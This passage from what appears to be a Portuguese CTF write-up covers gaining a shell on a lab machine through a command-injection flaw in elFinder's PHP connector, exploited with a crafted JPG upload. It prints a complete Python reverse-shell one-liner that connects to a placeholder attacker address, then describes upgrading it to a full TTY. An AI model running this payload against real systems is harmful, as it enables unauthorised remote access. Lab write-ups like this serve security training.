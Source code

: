 Agora sabemos a URL correta que devemos utilizar. No entanto, mesmo assim, o alvo não foi explorado. Analisando outro exploit disponível no `msfconsole`, conseguimos obter a shell. A exploração é realizada da mesma maneira: é feito upload de uma imagem que explora uma vulnerabilidade de injeção de comandos no conector PHP do `elFinder`.

Ao analisar melhor o exploit que baixamos do `exploit-db`, descobrimos o motivo do problema. A imagem que estava sendo utilizada estava em formato `PNG`, mesmo com a extensão sendo `.jpg`. O exploit foi desenvolvido para tratar e executar imagem em formato `JPG`. Após a alteração da imagem para uma que de fato é `JPG`, conseguimos obter acesso à máquina.

![shell reverse](/assets/img/posts/2025/02/lookup/shell_reverse.png)

### Melhorando a shell

Agora, vamos melhorar nossa shell para termos mais estabilidade em nossa pós-exploração. Para obtermos a shell reversa, escolhemos o Python.

No alvo:
```shell
/usr/bin/python3.8 -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("MY IP",PORTA));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'
```

Depois, deixamos nossa shell reversa full tty.

![full tty](/assets/img/posts/2025/02/lookup/shell_full_tty.png)

## Pós-exploração
